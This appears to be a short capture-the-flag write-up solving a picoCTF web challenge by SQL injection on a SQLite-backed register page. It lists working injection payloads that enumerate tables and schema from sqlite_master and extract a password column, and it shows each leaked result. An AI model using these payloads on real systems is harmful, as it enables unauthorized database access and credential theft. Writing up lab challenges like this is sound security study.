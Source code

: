# SQL injection for SQLITE

So, go to the register page and these stuff trigger a database error. Then what?

Supposed to extract table names and stuff using SQLi

Reffer to `Empire 1 ` from pico2019

# Payloads and Leaks

payload

```
'||(select tbl_name FROM sqlite_master WHERE type='table' limit 0,1 COLLATE NOCASE)||'
```

leak

```
startup_users
```

---

payload

```
'||(select tbl_name FROM sqlite_master WHERE type='table' limit 1,1 COLLATE NOCASE)||'
```

leak

```
none
```

---

payload

```
'||(select sql FROM sqlite_master WHERE type='table' limit 0,1 COLLATE NOCASE)||'
```

leak

```
$CREATE TABLE startup_users (nameuser text, wordpass text, money int)
```

---

payload

```
'||(select wordpass FROM startup_users where wordpass like '%picoCTF%' limit 0,1 COLLATE NOCASE)||'
```

leak

```
picoCTF{1_c4nn0t_s33_y0u_55fb70fa}
```
